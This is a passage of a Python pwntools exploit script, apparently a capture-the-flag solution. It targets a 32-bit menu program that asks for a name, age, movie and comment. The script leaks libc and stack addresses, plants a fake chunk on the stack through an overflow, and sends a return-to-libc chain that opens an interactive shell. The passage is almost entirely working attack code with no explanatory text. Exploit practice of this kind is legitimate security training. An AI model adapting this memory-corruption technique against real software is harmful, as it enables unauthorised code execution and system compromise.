 ```python
        log.info(f'leak: {hex(libc_base)}')
    else:
        p.recvuntil(b'Reason: ')
        p.recvuntil(b'a'*0x38)
        stack_leak = u32(p.recv(4))
        log.info(f'stack leak: {hex(stack_leak)}')

    if end == True:
        sleep(0.7)
        p.sendafter(b'<y/n>: ',b'n')
    else:
        sleep(0.7)
        p.sendafter(b'<y/n>: ',b'y')



def exploit():
    # leak libc
    info(b'a'*20,b'tom',ok=2)
    #leak stack


    info(b'a'*0x38,b'kuvee')
    for i in range(100):
        info(b'a'*5,b'b*10',ok=True)
    target_stack = stack_leak - 0x60
    input("fake chunk")
    p.sendafter(b'name: ',b'kuvee')
    p.sendlineafter(b'age: ',b'22')

    payload = b'a' + p32(0)*2 + p32(0x40) + p32(0)*0xf + p32(0x20)
    payload2 = b'a'*84 + p32(target_stack)

    p.sendafter(b'movie? ',payload)
    p.sendafter(b'comment: ',payload2)
    sa(b'<y/n>: ',b'y')
    pop_esi  = libc_base + 0x00017828
    pop_eax = 0x00023f97 + libc_base
    og = 0x5f065 + libc_base

    input("get shell")
    p.sendafter(b'name: ',b'a'*0x44 + p32(libc_base+0x3a940) + p32(libc_base+ 0x2e7b0) + p32(libc_base + 0x158e8b))
    p.sendafter(b'age: ',b'2')
    p.sendafter(b'movie? ',b'aa')
    p.sendafter(b'comment: ',b'bb')
    p.sendafter(b'<y/n>: ',b'n')








    p.interactive()

if __name__ == '__main__':
    init()
    exploit()
```
